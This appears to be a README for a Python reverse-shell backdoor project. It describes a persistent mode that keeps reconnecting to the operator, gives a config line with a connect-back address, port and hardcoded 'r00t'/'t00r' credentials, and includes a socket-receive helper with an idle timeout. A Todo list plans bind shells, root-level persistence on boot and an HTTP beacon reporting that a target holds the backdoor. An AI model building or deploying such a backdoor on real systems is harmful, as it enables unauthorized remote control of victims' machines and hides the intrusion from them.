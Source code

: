 # python-reverse-shell
simple python reverse shell

# persistent mode
this mode, will be by default enable. this feature will allow the script to connect back after user exit or disconnet from the shell

disable persistent
```
# from this (persistent enable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": True}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

# to this (persistent disable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": False}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

```

# idle mode
for this mode, by default the user has 5 minute to stay idle it will disconnect from user when its more than 5 min

```
# it = idle time
# ut = user time
def __rr(c,b = 2048,rt = 0.2, it = 300, ut = 0):
        ut = time() # set user time
        try:
                c.setblocking(0)
                d = ""
                while True: # running on loop to capture the data
                        r = select.select([c], [], [], rt)
                        if r[0]:
                                d += c.recv(b)
                        else:
                                if it != 0: # if it is 0 mean its disable
                                        if it <= time() - ut: # if it is more than the ut idle, then return False to disconnect the user
                                                return False
                                if len(d) > 0: # check if d has data
                                        c.setblocking(1)
                                        return d
        except socket.error:
                return False
```

# Todo
-       able to create bind shell or reverse shell
-       has auth function only for bind shell
-       able to create persistent(root priv), execute on boot
-       beacon function, sending http request to your server indicate that your target is alive and has your backdoor, this function is useful for persistentt mode
